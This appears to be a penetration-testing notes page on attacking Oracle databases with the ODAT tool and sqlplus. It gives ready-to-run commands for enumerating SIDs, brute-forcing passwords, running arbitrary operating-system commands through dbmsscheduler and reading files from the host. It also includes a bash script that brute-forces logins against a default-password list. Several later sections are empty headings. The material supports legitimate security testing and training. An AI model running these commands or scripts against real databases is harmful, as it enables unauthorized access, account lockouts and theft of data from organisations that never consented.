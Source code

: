 # Oracle Databases

Oracle databases are not commonly encountered in CTF challenges, but are very common in corporate environments.  Further, [versions &lt;12.1](https://docs.oracle.com/database/121/NTQRF/ap_services.htm#NTQRF700) will by default run with SYSTEM level privileges making these a very desirable attack vector.

Most of the examples here will be utilizing [ODAT ](https://github.com/quentinhardy/odat), the Oracle Database Attacking Tool.  This is because it has a number of exploits and scanners built in, is generally easier to set up and more stable than metasploit, and can use a lot of metasploits wordlists and data.  However, a lot will be repeated from the [wiki](https://github.com/quentinhardy/odat/wiki), so follow that if you want more in depth information.  Follow the guide in the [ODAT readme](https://github.com/quentinhardy/odat) to ensure that your Kali has all the required tools.

In general I'd recommend this over trying to get Metasploit up and running.  However, if you are still keen then follow [this guide](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux).  For an alternative, see [Andy Gill's guide](https://blog.zsec.uk/msforacle/).

Also see: [oracle-instantclient](https://github.com/bumpx/oracle-instantclient)

## Connecting to the Database

Assuming a remote TNS listener on port 1521, we can connect to a remote database as follows:

```
/usr/bin/sqlplus64 username/password@192.168.0.5:1521/ORCL
```

It's worth adding the `as sysdba` appended to the above command as your user may already be a database administrator, but the option to connect as one has to be explicitly set.  Alternatively pass the `--sysdba` flag to ODAT when logging in:

```
./odat.py all -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

It's highly recommended to use the `all` module when being presented with a new set of credentials, discovered either via brute-force or from another service.  Running this in combination with `--test-modules` will give you a quick overview of what is and isn't possible.  Use this flag with any of the below modules to ensure they work correctly.

If using ODAT, I'd also advise passing the `-vvv` flag once you ensure a module is working as it will allow you to debug the SQL commands, and see how they work behind the scenes.

## SID Enumeration

The [Oracle System Identifier](https://docs.oracle.com/cloud/latest/db112/CNCPT/startup.htm#CNCPT601) \(SID\) for Oracle identifies the database instance running on the host.  These will be unique for each database instance running, and it's important to identify all SID's available, as different instances can hold different data.

We can use ODAT to enumerate these SID's and find instances to attack.  These have to be explicity set in the command so it's important that you verify any one's available:

```
./odat.py sidguesser -s 10.10.10.82
```

## Username Brute-force

Generally usernames and passwords are not case-sensitive in older Oracle databases, but as of [11g](http://planet.openbravo.com/blog/aware-oracle-11g-login-is-case-sensitive/) this is not the case.  Also they are typically subject to an account lockout on too many password attempts ranging from 5 to 10, as we can see here:

```
string = SYSTEM:0RACLE
ORA-01017: invalid username/password; logon denied
string = SYSTEM:0RACL3
ORA-01017: invalid username/password; logon denied
string = SYSTEM:ORACLE8
ORA-28000: the account is locked
```

Lucky for us it will tell us and could be used as a very basic username enumeration method if you're really really desperate.  I'm joking, don't do that. Do not do that!  This means you have to be very careful when enumerating database users, and I'd advise sticking to either reused credentials or default password lists specifically targeting Oracle.

We can again use ODAT to brute-force passwords:

```bash
./odat.py passwordguesser -s 192.168.0.5 -d ORCL --accounts-file accounts/accounts_multiple.txt
```

The following bash script can perform a dirty manual brute-force using sqlplus, so be sure to adjust the path's in this one accordingly:

```bash
#!/bin/bash
INPUT=/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
OLDIFS=$IFS
IFS=,
[ ! -f $INPUT ] && { echo "$INPUT file not found"; exit 99; }
while read comment number username password hash comment
do
 echo "string = $username:$password"
 /usr/bin/sqlplus64 -L $username\/$password\@192.168.0.5:1521\/ORCL | cut -d$'\n' -f 7 
done < $INPUT
IFS=$OLDIFS
```

**Source**: [http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html](http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html)

## Code Execution

There's unfortunately nothing as trivial as `xp_cmdshell` for Oracle databases, but we do have options.  We can use `dbmsscheduler` in odat to execute arbitrary commands, however the results are not displayed.  You'll have to use one of the many file transfer methods to fetch the output of this command.

```
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
```

## Arbitrary File Read

I've found the `externaltable` to give the best results in cases like these:

```
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

However, do note that `ctxsys` can do the same, but all results are transformed to upper case:

```
./odat.py ctxsys --getFile 'C:\\Users\\Booj\\Desktop\\evil.jpg' -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

## File Upload

## CVE 2012-1675 \(TNS Poisoning\)

## CVE-2012-3137

[Alternative Script](https://github.com/r1-/cve-2012-3137)

If the vulnerability is not exploitable, this script will return a different session key on each run?

## Privilege Escalation

## Further Reading

[Blackhat USA 2009 - Attacking Oracle with the Metasploit Framework](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) & [Paper](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-PAPER.pdf)  
[Oracle DB Vulnerabilities: The Missing Pentester Handbook](https://hackmag.com/uncategorized/looking-into-methods-to-penetrate-oracle-db/)  
[Hardening Oracle Databases](/h ttp://www.ordba.net/Articles/HardeningOracleDB.htm)  
[Simple Oracle Privilege Escalation Techniques](http://ora-600.pl/art/oracle_privilege_escalation.pdf)  
[Simple Oracle Privilege Escalation Techniques 2](http://ora-600.pl/art/privilege_escalation_2.pdf)

